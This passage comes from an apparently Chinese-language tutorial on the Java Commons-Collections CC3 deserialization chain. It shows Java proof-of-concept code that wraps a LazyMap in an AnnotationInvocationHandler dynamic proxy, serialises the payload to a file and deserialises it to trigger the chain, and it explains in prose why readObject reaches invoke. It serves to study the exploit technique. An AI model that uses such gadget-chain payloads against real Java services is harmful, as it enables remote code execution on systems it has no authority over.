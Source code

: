 ```
        LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,chain);

        Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);

        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class,outmap);
        Map mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        handler = (InvocationHandler) constructor.newInstance(Retention.class,mapproxy);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC3.bin"));
        os.writeObject(handler);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC3.bin"));
        fos.readObject();
    }
    public static void setFiledValue(Object obj,String Filename,Object value) throws Exception
    {
        Field field = obj.getClass().getDeclaredField(Filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

AnnotationInvocationHandler实现了InvocationHandler接口,并且重写了readObject和invoke方法,可以利用动态代理,将InvocationHandler作为处理器,然后调用处理器的任意方法的时候触发invoke

在readObject中会执行这行代码

```
Iterator var4 = this.memberValues.entrySet().iterator();
```

看看该类的构造器

![image-20220120214250719](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220120214250719.png)

`this.memberValues`是可控的,只要将其包装成动态代理的处理器就可以直接触发invoke方法了

这部分代码如下

```
Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);

InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class,outmap);
Map mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Retention.class,mapproxy);
```
